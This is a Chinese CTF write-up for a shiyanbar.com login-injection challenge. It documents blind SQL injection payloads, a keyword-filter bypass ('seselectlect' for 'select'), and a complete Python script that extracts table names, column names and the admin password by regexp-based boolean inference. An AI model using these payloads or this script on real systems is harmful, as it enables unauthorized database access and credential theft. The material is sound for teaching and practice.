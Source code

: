 (-1)关键词

| 关键词 | 正常 | 过滤 | 标记 | 代替方案     | 备注 |      |      |
| ------ | ---- | ---- | ---- | ------------ | ---- | ---- | ---- |
| select | 否   | 是   | 是   | Seselectlect |      |      |      |

(-2)猜想连接语句

- select * from admin='' and pass=''(错)
  - len(res['pass']) == 1?
- select * from admin=''(对)
  - pass==res['pass']?



(1)回显

有明确回显，但是没有错误信息(不能用报错注入)

有语法错误则不显示

无语法错误则显示登录失败

```
admin=admin&pass=1 #错误
admin=root&pass=1 #连接失败
admin=admin'&pass=1 #不显示正确与否(语法错误)
```

(2)注释

用的是单引号，且可以使用#注释

```
admin=admin'%23&pass=1  #错误
admin' or 1 %23&pass=1 #错误，结果集为>=1
admin=admin' and 0 %23&pass=1 #数据库连接失败，结果集为0
admin=admin%27+and+1%23&pass=1 #错误
```

如果查询语句sql=select * from table where admin=''  必须结果集等于1，则会显示正确与错误、

(3)实现union查询

固定后缀#

可以通过判断sql语句返回的结果集代表该语句执行是否正确

```
select * from table where admin='admin' order by 1 #错误
select * from table where admin='admin' order by 2 #错误
select * from table where admin='admin' order by 3 #未显示
```

所以有两列

```
select * from table where admin='admin' union select 1,2,3 #请不在进行注入攻击(被标记)
select * from table where admin='admin' /*union*/ #报错
select * from table where admin='admin' /*select*/ # 标记
```

union关键词没事，select关键词被标记了

select关键词绕过

```
select * from table where admin='admin' /*selectselect*/ # 标记
select * from table where admin='admin' /*seselectlect*/ # 标记
select * from table where admin='admin' /*%73%65lect*/   #标记
select * from table where admin='admin' /*Select*/       #标记
```

可以发现所有的都标记了，检查下标记对于过滤有没有用.

可以利用语法错误来查看

```
select * from table where admin = 'admin' union select 1# 标记且无错误显示,回显admin' union 1#
select * from table where admin = 'admin' union selectselect 1# 标记且无错误显示,回显admin' union 1#
select * from table where admin = 'admin' union seselectlect 1# 标记且无错误显示,回显admin' union select 1#
select * from table where admin = 'admin' union seselectlect 1,2# 标记且有错误显示,回显admin' union select 1,2#
```

所以可以用seselectlect来替代select，被标记也没事

(5)查库，表，列

 脚本：

```python
#-*- coding:utf-8 -*-

import requests
import string

csets = string.ascii_lowercase+string.digits+',_@!'
url_mode = "http://ctf5.shiyanbar.com/basic/inject/index.php?admin=admin' %s #&pass=1&action=login"
real_state = "登录失败"
GET_TABLE_NAME = "select group_concat(table_name,'@') from information_schema.tables where table_schema=database()"
GET_COLUMN_NAME = "select group_concat(column_name) from information_schema.columns where table_name='%s'"
def extract(url):
    new_url = url.replace('select','seselectlect').replace('#','%23')
    #print("new_url:"+new_url)
    return new_url

def get_content(poc):
    url = extract(url_mode%(poc))
    r = requests.get(url)
    content = r.content.decode("GB2312")
    return content

#查数据库长度（非必须）
'''
for i in range(20):
    poc="and length(database())=%d"
    poc=poc%i
    content = get_content(poc)
    if real_state in content:
        print("len:%d"%i)
        break
'''
database_len = 4

#查表长度和表名
'''
for i in range(20):
    poc = 'and length((%s)) = %d'
    poc = poc%(GET_TABLE_NAME,i)
    content = get_content(poc)
    if real_state in content:
        print("len:%d"%i)
        break
'''
table_name_len = 5
#获取表名
'''
strs = '@'
for i in range(5):
    for c in csets:
        poc = "and (select (%s) regexp '%s$')"
        poc = poc%(GET_TABLE_NAME,(c+strs))
        content = get_content(poc)
        if real_state in content:
            strs = c + strs
            print(strs)
            break
'''
#admin' and (select (select substr(group_concat(table_name,'@'),1,1) from information_schema.tables where table_schema=database()) > 'a') #
table_name='admin'

#获取列名总长度
'''
for i in range(20):
        poc = "and length((%s)) = %d"
        tmp = GET_COLUMN_NAME % table_name
        poc = poc %(tmp,i)
        content = get_content(poc)
        if real_state in content:
                print(i)
                break
'''
column_len = 17

#获取列名
'''
strs = ''
poc = "and (select ((%s)) regexp '%s$')"
for i in range(column_len):
        for c in csets:
                tmp = GET_COLUMN_NAME %table_name
                tmp = poc %(tmp,c+strs)
                content = get_content(tmp)
                if real_state in content:
                        strs = c + strs
                        print(strs)
                        break
'''

column_name = 'username,password'
strs = ''
flag = False
while not flag:
        flag = True
        for c in csets:
                poc = "and (select ((select password from admin limit 0,1)) regexp '%s$')"
                poc = poc %(c+strs)
                content = get_content(poc)
                if real_state in content:
                        strs = c+strs
                        flag = False
                        print(strs)

password="idnuenna"


```

(6)在登录界面输入账户，密码即可获取到key









